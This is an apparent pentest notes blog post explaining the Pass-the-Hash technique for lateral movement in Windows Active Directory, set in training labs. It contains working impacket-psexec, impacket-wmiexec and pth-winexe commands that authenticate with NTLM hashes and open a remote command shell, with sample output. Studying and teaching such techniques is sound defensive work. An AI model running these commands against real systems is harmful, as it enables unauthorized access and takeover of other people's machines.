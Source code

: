 ```yaml
---
description: >-
  Pass The Hash
title: Pass The Hash              # Add title here
date: 2023-02-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, pass the hash]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Pass The Hash Attack
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including PsExec from Metasploit, Passing-the-hash toolkit, and [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_. This is done using the Service Control ManagerAPI.

This technique requires an SMB connection through the firewall (commonly port 445), and the Windows _File and Print Sharing_ feature to be enabled. These requirements are common in internal enterprise environments.

When a connection is performed, it normally uses a special admin share called Admin$. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

Note that PtH uses the NTLM hash legitimately. However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator.

> To extract hashes for a pass the hash, go to [Dumping SAM](https://shuciran.github.io/posts/Dumping-SAM/) section or [DCSync](https://shuciran.github.io/posts/DCSync/) section.
{: .prompt-tip }

### Impacket-psexec
You can use impacket-psexec to pass the hash into winrm service:
```bash
impacket-psexec offsec.local/Administrator:@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-psexec)
[[Sauna#^]]
### Impacket-wmiexec
```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-wmiexec)

### PtH
We can use _pth-winexe_ from the Passing-The-Hash toolkit, just as we did when we passed the hash to a non-domain joined user in the Password Attacks module:
```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```




